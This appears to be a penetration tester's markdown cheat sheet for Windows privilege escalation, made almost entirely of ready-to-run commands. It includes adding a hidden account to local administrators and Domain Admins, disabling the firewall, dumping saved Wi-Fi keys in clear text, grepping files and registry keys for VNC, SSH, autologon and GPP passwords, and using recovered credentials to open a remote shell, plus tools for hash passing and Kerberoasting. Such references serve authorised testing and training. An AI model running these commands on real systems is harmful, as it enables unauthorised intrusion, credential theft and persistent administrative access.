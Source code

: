#### Strategy
```
- stored creds
- kernel exploits
- DLL injection and hijacking
- insecure file/folder permissions
- insecure service permissions
- group policy preferences
- unquoted service path
- always install elevated
- token manipulation
- autologon user creds
- schedule tasks
```

#### Creating an account
```
- net user name Username12345678* /add /Y
- net localgroup administrators name /add
- net localgroup "Remote Desktop Users" name /add #access RDP
- net localgroup "Backup Operators" name /add #full acceess to files
- net group "Domain Admins" name /add /domain
- net user name /ACTIVE:YES /domain` #enables domain user account
```

#### System Enum
```
- systeminfo
- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
- hostname
- wmic qfe
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- wmic logicaldisk get caption,description,providername
- whoami /priv
- whoami /groups
- net user babis
- net localgroup
- net localgroup administrators
- C:\Program Files
  - search for vulns in all installed software
- sc start
- sc stop
- Restart service:
  - wmic service NAMEOFSERVICE call startservice
  - net stop [service name] && net start [service name]
- SSH keys
  - reg query 'HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys'
```

#### Network Enum
```
- ipconfig /all
- netstat -ano #listening ports
- route print #routing table
- arp -a
- Netsh wlan show profile
- Netsh wlan show profile <SSID> key=clear

```

#### Passwords
```
- findstr /si password *.txt
- findstr /si password *.txt *.config *.ini
```

#### AV Enum
```
- sc query windefend
- sc queryex type= service
- netsh advfirewall firewall dump
- netsh firewall show state
- netsh firewall show config
- netsh firewall set opmode mode=disable
- netsh advfirewall firewall set opmode mode=disable

```
#### Tools
```
- PowerUp
  - powershell -ep bypass
  - import powerup
  - ..\PowerUp.ps1
  - then:
  - invoke-AllChecks
  - let this run
- WinPEAS
- Windows-exploit-suggester.py
- Bloodhound
- crackmapexec/netexec
  - SMB relay, Kerberoasting, ASREP Roasting
  - hash passing
- Impacket all - secrets.py
- Mitm6
- mimikatz
- ldapdomaindump
- Responder
- PEASS-ng
```

#### Unquoted service paths
```
CMD line
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

PowerShell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

#### AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### Cached GPP Password
```
- Decrypt cPassword:
  - gpp-decrypt <cpasswordtext>
- crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```

#### Registry keys
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\OpenSSH\Agent\Key"
```

#### Auto logon
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"

Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon

If enabled: use creds to get schell
winexe -U 'admin%password123' //10.10.10.10 cmd.exe
```

#### Scheduled tasks
```
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

#### Sites:
- [LOLBAS](https://lolbas-project.github.io/#)
  - GTFObins of windows
- [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

